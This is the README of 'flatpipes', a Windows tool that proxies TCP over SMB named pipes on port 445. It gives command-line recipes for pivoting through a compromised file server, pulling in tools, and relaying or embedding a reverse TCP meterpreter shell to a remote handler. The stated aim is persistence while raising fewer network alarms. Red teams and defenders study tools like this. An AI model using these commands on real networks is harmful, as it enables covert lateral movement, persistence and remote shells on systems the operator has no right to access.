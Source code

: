 [![Logo](https://github.com/dxflatline/misc/raw/master/flatpipes-help.png)]

# flatpipes
A TCP proxy over named pipes. Originally created for maintaining a meterpreter session over 445 for less network alarms.

Since it seems it can help in various situations, let's list a few:


#### Usage - TCP 10001 Chat over Named Pipe

On the 1st Windows host (pipe server) we create two pipes "pipename_s2c" & "pipename_c2s" and as soon as pipe negotiation is ok, we open a TCP listener at 10001: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 10001
```

On the 2nd Windows host (pipe client) we just connect to the pipe(s) created previously on the system X.X.X.X. As soon as we successfully connect, flatpipes open a listener on 10001 on this client machine too: 
```
flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001
```

Finally, netcat on the two hosts on their listeners and chat with yourself.


#### Usage - Bring a remote port here

Let's suppose you have access on the MS Fileserver (x.x.x.x) through a Windows "jumphost" workstation. You want to ensure all communications are over 445 since it is normal for workstation to DC. We need to access SSH on another system (y.y.y.y) in the Fileserver's LAN but we can only connect to MS Fileserver 445

On the MS Fileserver (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it will TCP connect to the SSH server (y.y.y.y) in the LAN. All IO is through the flatpipes: 
```
flatpipes.exe pserver sclient pipename . y.y.y.y 22
```

On the jumphost we PIPE connect to the MS fileserver (x.x.x.x), and immediately spawn a TCP listener on localhost 22: 
```
flatpipes.exe pclient sserver pipename x.x.x.x 127.0.0.1 22
```

Just ssh on 127.0.0.1 22 from the jumphost  and you are through the town portal


#### Usage - Send a local port there

The reverse of the above example, useful to download additional tools through eg sftp

On the Server (x.x.x.x) we create our pipes for "IPC", and as soon as pipe negotiation is ok, it spawn a TCP listener on localhost 22: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 22
```

On the jumphost we PIPE connect to the Server (x.x.x.x), and as soon as pipe negotiation is ok, it will TCP connect to our sFTP file repo (y.y.y.y). All IO is through the flatpipes: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 22
```

SSH on 127.0.0.1 22 from the Server


#### Usage - Reverse TCP meterpreter through pipes (own payload)

On the MS Fileserver (x.x.x.x) again and you want to maintain persistence, but over 445. You want reverse TCP meterpreter but also you want the jumphost to initiate the 445 connection.

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

What this means is that we can exchange directions, eg use a reverse exploitation, but make the opposite network traffic. It is like an encapsulation over DNS, just needs some familiarization.


#### Usage - Reverse TCP meterpreter through pipes (embedded payload)

Same as above but the reverse meter payload is embedded in the flatpipes

On the MS Fileserver (x.x.x.x), we create two pipes and listen on 127.0.0.1 54321 for the reverse TCP meterpreter. Note the "revmeter" keyword: 
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
```

On the jumphost we connect to the MS Fileserver (x.x.x.x) and immediately connect to the meterpreter handler at y.y.y.y: 
```
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 54321
```

Important note: If you meterpreter listener in waiting on eg 12345 just use the following:
```
flatpipes.exe pserver sserver pipename . 127.0.0.1 54321 revmeter
flatpipes.exe pclient sclient pipename x.x.x.x y.y.y.y 12345
```
The first command with "monkey-patch" the meterpreter bytecode on-the-fly to make it locally connect to 54321. At the jumphost, the 12345 can be used without any interruption. It is like NAT'ting a port on a firewall

---

#### TODO
* Supports one connection, think of ways to do multiple connection handling
* Custom payload option (undecided on the transfer format b64?)
* Exception handling. Asap when pipe auth does not work

---

I hope it will help. Comments are welcome / looking for feedback.

<sub>PS: I don't know exactly (or have time to read) the details of CreateNamedPipe access controls. So I assume from MSDN that by using NULL security descriptor we allow RW access to Admins/System/Creator and R to everyone/anon. On the workstation that acts as a pipe client I test using eg *runas /user:server\tester /netonly "flatpipes.exe pclient sserver pipename X.X.X.X 127.0.0.1 10001"*. What happens with */netonly* is that you force an ntlm2 challenge response for all the pipe access requirements of the calls issued by flatpipes.</sub>
